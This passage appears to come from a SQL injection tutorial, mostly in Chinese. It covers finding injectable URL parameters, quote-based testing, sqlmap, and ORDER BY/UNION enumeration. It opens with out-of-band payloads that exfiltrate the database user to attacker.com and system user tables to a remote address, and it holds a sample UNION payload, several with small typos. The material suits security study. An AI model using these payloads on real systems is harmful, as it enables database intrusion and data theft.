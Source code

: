 * 利用HTTP响应之外的传输。

```
SELECT * FROM  reviews WHERE review_author=UTL_INADDR.GET_HOST_ADDRESS((select user from dual ||'.attacker.com'));
INSERT into openowset('sqloledb','Network=DBMSSOCN; Address=10.0.0.2,1088;uid=gds574;pwd=XXX','SELECT * from tableresults') Select name,uid,isntuser from master.dbo.sysusers--
```

### 常见的方法开发
* 每当你看到一个URL，**问号**后面跟着某种类型的字母或单词，就意味着一个值从一个页面发送到另一个页面。

* 在这个例子里
```
http://www.website.com/info.php?id=10
```
页面 *info.php* 正在接收数据，并将有一些像这样的代码:
```
$id=$_post['id'];
```
以及一个相关的SQL查询:
```
QueryHere = "select * from information where code='$id'"
```



#### 检查漏洞
我们可以通过在URL的结尾附加一个简单的 ```'``` 来验证目标是否脆弱。

```
http://www.website.com/info.php?id=10'
```

如果该网站返回以下错误:

		You have an error in your SQL syntax...

这意味着这个网站很容易受到SQL的攻击。

#### 找到数据库的结构
要找到数据库中列和表的数量，我们可以使用 [Python's SQLmap](http://sqlmap.org/).

This application streamlines the SQL injection process by automating the detection and exploitation of SQL injection flaws of a database. There are several automated mechanisms to find the database name, table names, and number of columns.

* ORDER BY: it tries to order all columns form x to infinity. The iteration stops when the response shows that the input column x does not exist, reveling the value of x.

* UNION: it gathers several data located in different table columns. The automated process tries to gather all information contained in columns/table x,y,z obtained by ORDER BY. The payload is similar to:

```
?id=5'%22union%22all%22select%221,2,3
```

* Normally the databases are defined with names such as: user, admin, member, password, passwd, pwd, user_name. The injector uses a trial and error technique to try to identify the name:
